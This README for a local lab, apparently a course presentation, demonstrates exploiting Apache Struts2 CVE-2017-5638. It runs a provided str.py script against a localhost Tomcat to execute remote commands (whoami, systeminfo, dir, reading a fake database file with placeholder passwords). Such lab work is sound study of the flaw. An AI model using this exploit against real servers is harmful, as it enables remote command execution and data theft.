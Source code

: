 # Exploiting Apache Struts2 CVE-2017-5638

This guide demonstrates how to exploit the Apache Struts2 vulnerability (CVE-2017-5638) using a locally configured Apache Tomcat server and Python scripts.

---

## **Setup Guide**

### **1. Prerequisites**
- All required MSI/ZIP files are included in the folder.
- Follow the setup instructions provided in this [Medium article](https://medium.com/@lucideus/exploiting-apache-struts2-cve-2017-5638-lucideus-research-83adb9490ede).
- Note that all of this is run on a windows local machine, the articles assumes the server is hosted on a linux machine.

---

## **Steps to Execute**

### **Step 1: Navigate to the `bin` Directory**
```
cd <path-to-apache-tomcat-7.0.81-windows-x64\apache-tomcat-7.0.81\bin>
```


### **Step 2: Start Apache Tomcat**
Run the following command to start the server:
```
startup.bin
```

### **Step 3: Access the Application**
Open a browser and navigate to:
```
http://localhost:8080/str/
```

### **Step 4: Execute Commands Using Python Script**
Use the provided `str.py` script to execute commands on the server.

#### **Retrieve System Information**
```
python str.py http://localhost:8080/str/ "whoami"
python str.py http://localhost:8080/str/ "systeminfo"
```

#### **List Directory Contents**
```
python str.py http://localhost:8080/str/ "dir"
```

#### **Output Example**
```
Volume in drive C has no label.
Volume Serial Number is 0C74-F665

Directory of C:\Users\LENOVO\Downloads\SC3010 Presentation\apache-tomcat-7.0.81-windows-x64\apache-tomcat-7.0.81\bin

03/27/2025 08:24 PM <DIR> .
03/27/2025 08:24 PM <DIR> ..
03/27/2025 07:19 PM 28,503 bootstrap.jar
03/27/2025 07:19 PM 1,686 catalina-tasks.xml
03/27/2025 07:19 PM 14,028 catalina.bat
03/27/2025 07:19 PM 21,646 catalina.sh
03/27/2025 07:19 PM 204,944 commons-daemon-native.tar.gz
03/27/2025 07:19 PM 24,283 commons-daemon.jar
03/27/2025 07:19 PM 2,040 configtest.bat
03/27/2025 07:19 PM 1,922 configtest.sh
03/27/2025 07:19 PM 7,888 daemon.sh
03/27/2025 07:19 PM 2,091 digest.bat
03/27/2025 07:19 PM 1,965 digest.sh
03/27/2025 08:00 PM 453 fake_db.sql
03/27/2025 07:19 PM 6,308 service.bat
03/27/2025 ...
...
...
```
#### **Look for fake database infomation!**
```
python str.py http://localhost:8080/str/ "type fake_db.sql"
```
```
-- fake_db.sql

CREATE DATABASE IF NOT EXISTS fake_database;
USE fake_database;

CREATE TABLE IF NOT EXISTS users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(255) NOT NULL,
    email VARCHAR(100)
);

INSERT INTO users (username, password, email) VALUES
('admin', 'password123', 'admin@example.com'),
('user1', '123456', 'user1@example.com'),
('user2', 'abcdef', 'user2@example.com');
```